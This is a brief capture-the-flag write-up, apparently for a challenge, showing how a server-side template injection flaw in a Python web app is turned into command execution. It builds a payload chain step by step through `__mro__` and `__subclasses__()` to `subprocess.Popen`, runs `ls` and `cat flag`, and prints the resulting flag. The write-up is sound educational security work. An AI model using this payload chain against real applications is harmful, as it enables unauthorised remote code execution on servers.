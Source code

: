 1. Starting with `{{''.__class__}}`, the class of an empty string, it returns `<class 'str'>`
2. Next, injecting `{{ ''.__class__.__mro__ }}`, gives us `(<class 'str'>, <class 'object'>)`
3. Since we want to go back to the root object class, we’ll leverage an index of 1 to select the `class of type 'object'`. Now that we’re at the root object, we can leverage the `__subclasses__` attribute to dump all of the classes used in the application. Inject `{{ ''.__class__.__mro__[1].__subclasses__() }}` into the SSTI vulnerability.

<details><summary>Output</summary></details>

Scrolling through the output, we look for possible ways to achieve RCE. Luckily, there is a `<class 'subprocess.Popen'>` at index `350`.  
(btw i slowly did `300:`, `320:`, `340:`)

4. Entering this: `{{''.__class__.__mro__[1].__subclasses__()[350]}}` confirms it is at index `350`.

5. Finally, use it like a normal function, appending `('ls',shell=True,stdout=-1).communicate()` and it returns `(b'app.py\nflag\nrequirements.txt\ntemplates\n', None)`

6. Final Payload: `{{''.__class__.__mro__[1].__subclasses__()[350]('cat flag',shell=True,stdout=-1).communicate()}}` returns what looks like a binary. But we don't need to run it. Just `ctrl+f` `ACSI` in your browser and you get:

Flag: `ACSI{s0m3t1m3s_my_g3n1u5...it5...it5_alm05t_fr1ght3ning...}`
